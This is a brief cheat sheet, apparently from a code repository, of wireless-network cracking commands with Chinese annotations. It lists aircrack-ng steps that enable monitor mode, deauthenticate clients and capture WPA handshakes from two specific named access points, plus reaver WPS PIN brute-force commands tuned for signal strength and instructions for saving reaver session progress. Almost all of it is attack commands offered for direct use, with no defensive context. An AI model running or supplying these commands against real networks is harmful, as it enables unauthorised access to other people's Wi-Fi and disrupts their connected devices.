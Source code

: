 1. airmon-ng start wlan0
2. airodump-ng wlan0mon 
3. next airodump-ng
4. aireplay-ng -0 10 -a target-mac -c client-mac wlan0mon0


airodump-ng -c 10 --bssid  28:D1:27:8C:6B:65 -w Xiaomi_DiDi wlan0mon (handshake)



airodump-ng -c 1 --bssid  48:0E:EC:50:97:E4 -w xiaokeai wlan0mon


reaver -i mon0 -b xx:xx:xx:xx:xx:xx -d 0 -vv -a -S -N

信号非常好:

reaver -i mon0 -b MAC -a -S -vv -d 0 -c 1

信号普通:

reaver -i mon0 -b MAC -a -S -vv -d .5 -t .5 -c 1

信号一般:

reaver -i mon0 -b MAC -a -S -vv -c 1

当出现有百分数时你就可以用crtl+c来暂停，它会将reaver的进度表文件保存在

1.3版：

/etc/reaver/MAC地址.wpc

1.4版：

/usr/local/etc/reaver/MAC地址.wpc

用资源管理器，手工将以MAC地址命名的、后辍为wpc的文件拷贝到U盘或硬盘中，

下次重启动后，再手工复制到/etc/reaver/ 目录下即可。